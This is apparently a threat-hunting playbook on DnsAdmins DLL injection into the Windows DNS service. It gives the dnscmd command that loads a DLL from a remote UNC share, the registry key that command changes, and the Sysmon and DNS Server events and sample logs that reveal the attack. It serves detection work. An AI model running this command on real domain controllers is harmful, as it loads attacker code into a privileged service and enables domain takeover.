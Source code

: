 # Windows DNS Server dll injection via RPC (DnssrvOperation2)
## Description
The Windows DNS Server management protocol, which is based on RPC, allows
DnsAdmins and higher privileged Users to load arbitary dlls as plugins into the
DNS service

You can find a detailed description
[here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).

## Hypothesis
We assume the attacker has a privileged user to reconfigure the DNS service:

The attack has to be executed in two steps:

  1. dnscmd.exe dc1.lab.internal /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
    - Whereas the dll has to be as a special DNS server plugin dll.
      ([GitHub 0xdim69](https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp))
    - A registry parameter gets added: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll and set to the value \\\\192.168.0.149\dll\wtf.dll

  2. The DNS service gets restarted
    - The DLL is loaded into dns.exe and the API functions are called.

## Events (dnscmd execution)

| Source | EventID | Field | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| Sysmon | 13 | EventType |SetType - TargetObject gets set (see next line) | dim0x69 |
| Sysmon | 13 | TargetObject |REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\DNS\Parameters\ServerLevelPluginDll gets set to the dll path | dim0x69 |
| Microsoft-Windows-DNSServer | 541 | Data Name="Setting" | serverlevelplugindll (**case insensitive**), parameter as set by the attacker when executing dnscmd | dim0x69 |
| Microsoft-Windows-DNSServer | 541 | Data Name="NewValue" | \\192.168.0.149\dll\wtf.dll (**case insensitive**), parameter to the /serverlevelplugindll command as executed by the attacker | dim0x69 |

## Events (DNS service restarted)
| Source | EventID | Field | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| DNS Server | 771 | | Event gets logged when a dll plugin is loaded by the DNS service |dim0x69 |
| DNS Server | 770 | EventData Name="DNS_EVENT_PLUGIN_DLL_LOAD_OK" | |dim0x69 |
| DNS Server | 770 | Name="param1" \\192.168.0.149\dll\wtf.dll" | | dim0x69 |

## Hunter Notes
### Events logged while step 1: dnscmd execution
  * dnscmd dc1 /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll

```
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Sysmon" Guid="{5770385F-C22A-43E0-BF4C-06F5698FFBD9}" /> 
  <EventID>13</EventID> 
  <Version>2</Version> 
  <Level>4</Level> 
  <Task>13</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8000000000000000</Keywords> 
  <TimeCreated SystemTime="2017-05-09T08:52:35.589834200Z" /> 
  <EventRecordID>8435</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="1264" ThreadID="2980" /> 
  <Channel>Microsoft-Windows-Sysmon/Operational</Channel> 
  <Computer>dc1.lab.internal</Computer> 
  <Security UserID="S-1-5-18" /> 
  </System>
- <EventData>
  <Data Name="EventType">SetValue</Data> 
  <Data Name="UtcTime">2017-05-09 08:52:35.589</Data> 
  <Data Name="ProcessGuid">{85D1CFA0-7DCD-5911-0000-0010F4196600}</Data> 
  <Data Name="ProcessId">3388</Data> 
  <Data Name="Image">C:\Windows\system32\dns.exe</Data> 
  <Data Name="TargetObject">\REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\DNS\Parameters\ServerLevelPluginDll</Data> 
  <Data Name="Details">\\192.168.0.149\dll\wtf.dll</Data> 
  </EventData>
  </Event>
```

```
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-DNSServer" Guid="{EB79061A-A566-4698-9119-3ED2807060E7}" /> 
  <EventID>541</EventID> 
  <Version>0</Version> 
  <Level>4</Level> 
  <Task>10</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x4000000008000000</Keywords> 
  <TimeCreated SystemTime="2017-05-09T08:52:35.589834200Z" /> 
  <EventRecordID>148</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="3388" ThreadID="3928" /> 
  <Channel>Microsoft-Windows-DNSServer/Audit</Channel> 
  <Computer>dc1.lab.internal</Computer> 
  <Security UserID="S-1-5-21-764058423-2567595003-319586131-1001" /> 
  </System>
- <EventData>
  <Data Name="Setting">serverlevelplugindll</Data> 
  <Data Name="Scope">.</Data> 
  <Data Name="NewValue">\\192.168.0.149\dll\wtf.dll</Data> 
  </EventData>
  </Event>
```

### Events logged while step 2: DNS service Restarted

```
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-DNS-Server-Service" Guid="{71A551F5-C893-4849-886B-B5EC8502641E}" /> 
  <EventID>771</EventID> 
  <Version>0</Version> 
  <Level>4</Level> 
  <Task>0</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8000000000008000</Keywords> 
  <TimeCreated SystemTime="2017-05-09T08:54:26.798142300Z" /> 
  <EventRecordID>263</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="2312" ThreadID="3068" /> 
  <Channel>DNS Server</Channel> 
  <Computer>dc1.lab.internal</Computer> 
  <Security UserID="S-1-5-18" /> 
  </System>
  <EventData /> 
  </Event>
```

```
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-DNS-Server-Service" Guid="{71A551F5-C893-4849-886B-B5EC8502641E}" /> 
  <EventID>770</EventID> 
  <Version>0</Version> 
  <Level>4</Level> 
  <Task>0</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8000000000008000</Keywords> 
  <TimeCreated SystemTime="2017-05-09T08:54:26.798142300Z" /> 
  <EventRecordID>264</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="2312" ThreadID="3068" /> 
  <Channel>DNS Server</Channel> 
  <Computer>dc1.lab.internal</Computer> 
  <Security UserID="S-1-5-18" /> 
  </System>
- <EventData Name="DNS_EVENT_PLUGIN_DLL_LOAD_OK">
  <Data Name="param1">\\192.168.0.149\dll\wtf.dll</Data> 
  <Data Name="param2">dc1.lab.internal</Data> 
  </EventData>
  </Event>

```


```
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Sysmon" Guid="{5770385F-C22A-43E0-BF4C-06F5698FFBD9}" /> 
  <EventID>7</EventID> 
  <Version>3</Version> 
  <Level>4</Level> 
  <Task>7</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8000000000000000</Keywords> 
  <TimeCreated SystemTime="2017-05-09T08:54:26.836958500Z" /> 
  <EventRecordID>8712</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="1264" ThreadID="2980" /> 
  <Channel>Microsoft-Windows-Sysmon/Operational</Channel> 
  <Computer>dc1.lab.internal</Computer> 
  <Security UserID="S-1-5-18" /> 
  </System>
- <EventData>
  <Data Name="UtcTime">2017-05-09 08:54:26.786</Data> 
  <Data Name="ProcessGuid">{85D1CFA0-83C2-5911-0000-00105E6E7300}</Data> 
  <Data Name="ProcessId">2312</Data> 
  <Data Name="Image">C:\Windows\System32\dns.exe</Data> 
  <Data Name="ImageLoaded">\\192.168.0.149\dll\wtf.dll</Data> 
  <Data Name="Hashes">SHA1=64EC0621DF216115C0CF6F4958E0866D0C74734B</Data> 
  <Data Name="Signed">false</Data> 
  <Data Name="Signature" /> 
  <Data Name="SignatureStatus">Unavailable</Data> 
  </EventData>
  </Event>
```

## Hunting Techniques Recommended

- [ ] Grouping
- [x] Searching
- [ ] Clustering
- [ ] Stack Counting
- [ ] Scatter Plots
- [ ] Box Plots
- [ ] Isolation Forests

